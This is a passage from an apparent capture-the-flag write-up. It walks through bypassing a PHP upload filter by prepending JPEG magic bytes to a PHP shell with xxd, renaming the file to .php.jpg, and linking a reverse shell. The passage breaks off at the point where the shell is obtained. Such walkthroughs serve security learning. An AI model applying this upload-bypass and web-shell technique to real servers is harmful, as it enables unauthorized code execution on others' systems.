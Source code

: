 ```php
  }
  return $file['type'];
}
```

```php
list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

```

There are 2 filters, one checks for MIME type reading magic bytes of the file and the other one checks for extension.

Let’s add those magic bytes that of `.jpg` files have

[File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)

![image.png](image%205.png)

As in ASCII format they have unprintable characters let’s add `hex` values using the following command:

```php
echo 'FF D8 FF E0' | xxd -p -r > mime_shell.php
cat shell.php >> mime_shell.php
mv mime_shell.php mime_shell.php.jpg
```

![image.png](image%206.png)

We see prepended magic bytes of `jpg` file.

Success! We were able to upload php file:

![image.png](image%207.png)

The question is will the file be executed by server as php file or will be interpreted as image file we can check it by navigating to `uploads/filename`.

It actually worked 

![image.png](image%208.png)

the problem is related to php shell itself.

Then I changed `shell.php` to the following one:
[PHP-Reverse-Shell](https://github.com/xdayeh/Php-Reverse-Shell/blob/master/PHP-Reverse-Shell.php)

Now we got the shell:
